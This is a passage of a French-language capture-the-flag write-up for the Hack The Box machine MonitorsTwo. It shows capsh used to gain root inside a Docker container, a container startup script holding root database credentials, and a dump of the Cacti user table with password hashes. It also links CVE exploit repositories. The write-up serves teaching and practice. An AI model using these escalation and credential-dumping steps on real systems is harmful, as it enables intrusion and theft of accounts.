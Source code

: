 ```bash
www-data@50bca5e748b0:/var/www$ /sbin/capsh --gid=0 --uid=0 --
/sbin/capsh --gid=0 --uid=0 --
id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
```

Et ainsi j'obtiens les droits root. Cependant nous n'avons pas encore trouvé notre flag puisse que nous sommes toujours dans le conteneur docker.

## V- Mouvement latérral

Lorsque nous listons les fichiers dans le répertoire racine (/), nous voyons un script appelé entrypoint.sh:

```bash
ls -l
total 76
drwxr-xr-x   1 root root 4096 Mar 22  2023 bin
drwxr-xr-x   2 root root 4096 Mar 22  2023 boot
drwxr-xr-x   5 root root  340 Jan 25 14:34 dev
-rw-r--r--   1 root root  648 Jan  5  2023 entrypoint.sh
<SNIP>
```

Vérifions donc son contenu: 

```bash
www-data@50bca5e748b0:/$ cat entrypoint.sh
#!/bin/bash
set -ex

wait-for-it db:3306 -t 300 -- echo "database is connected"
if [[ ! $(mysql --host=db --user=root --password=root cacti -e "show tables") =~ "automation_devices" ]]; then
    mysql --host=db --user=root --password=root cacti < /var/www/html/cacti.sql
    mysql --host=db --user=root --password=root cacti -e "UPDATE user_auth SET must_change_password='' WHERE username = 'admin'"
    mysql --host=db --user=root --password=root cacti -e "SET GLOBAL time_zone = 'UTC'"
fi

chown www-data:www-data -R /var/www/html
# first arg is `-f` or `--some-option`
if [ "${1#-}" != "$1" ]; then
        set -- apache2-foreground "$@"
fi

exec "$@"
```

Nous voyons plusieurs commandes mysql exécutées en tant que root. Le script révèle également que le nom d'utilisateur admin existe et que le champ lié au mot de passe must_change_password est présent dans la table user_auth.

```bash
$ mysql --host=db --user=root --password=root cacti -e "SELECT * FROM user_auth"
id      username        password        realm   full_name       email_address   must_change_password    password_change show_tree       show_list       show_preview    graph_settings     login_opts      policy_graphs   policy_trees    policy_hosts    policy_graph_templates  enabled lastchange      lastlogin       password_history        locked  failed_attempts    lastfail        reset_perms
1       admin   $2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC    0       Jamie Thompson  admin@monitorstwo.htb   1       on      on      on      on      on      2 11       1       1       on      -1      -1      -1              0       0       663348655
3       guest   43e9a4ab75570f5b        0       Guest Account           on      on      on      on      on      3       1       1       1       1       1               -1      -1-1               0       0       0
```

[1]:	https://app.hackthebox.com/machines/MonitorsTwo
[2]:	https://nvd.nist.gov/vuln/detail/CVE-2022-46169
[3]:	https://github.com/FredBrave/CVE-2022-46169-CACTI-1.2.22
[4]:	https://gtfobins.github.io/gtfobins/capsh/#suid
[5]:	https://nvd.nist.gov/vuln/detail/CVE-2021-33033
[6]:	https://wiki.ubuntu.com/FocalFossa/ReleaseNotes
[7]:	https://nvd.nist.gov/vuln/detail/CVE-2020-25706 
[8]:	https://nvd.nist.gov/vuln/detail/CVE-2021-41091
[9]:	https://github.com/UncleJ4ck/CVE-2021-41091
[10]:	https://www.youtube.com/watch?v=dJfbogs8Yz0&t=8s
[11]:	https://www.rapid7.com/db/modules/exploit/linux/http/cacti_unauthenticated_cmd_injection/
[12]:	https://www.exploit-db.com/exploits/51166
[13]:	https://github.com/rapid7/metasploit-framework/blob/master//modules/exploits/linux/http/cacti_unauthenticated_cmd_injection.rb#L143
[14]:	https://pento.net/2009/02/27/the-g-modifier-in-the-mysql-command-line-client/
[15]:	https://www.freecodecamp.org/news/where-are-docker-images-stored-docker-container-paths-explained/
[16]:	https://www.gnu.org/software/bash/manual/html_node/The-Set-Builtin.html#:~:text=If%20the%20%2Dp%20option%20is,real%20user%20and%20group%20ids.&text=Enable%20restricted%20shell%20mode.,once%20it%20has%20been%20set
[image-1]: 	img/MonitorsTwo.png
[image-2]:	img/home.png
[image-3]:	img/vuln.png
[image-4]:	img/capsh.png
[image-5]:	img/linuxkernel.png
[image-6]:	img/machine_pwned.png
[image-7]:	img/burp_login_request.png
[image-8]:	img/burp_fatal_error.png
[image-9]:	img/xForwardedFor.png
[image-10]:	img/sleep_attempt.png
[image-11]:	img/payload_pos.png
[image-12]:	img/payload_settings.png
[image-13]:	img/brute_results.png
[image-14]:	img/burp_responseTime.png
[image-15]:	img/proc.png
[image-16]:	img/uptime.png
[image-17]:	img/revshell_payload.png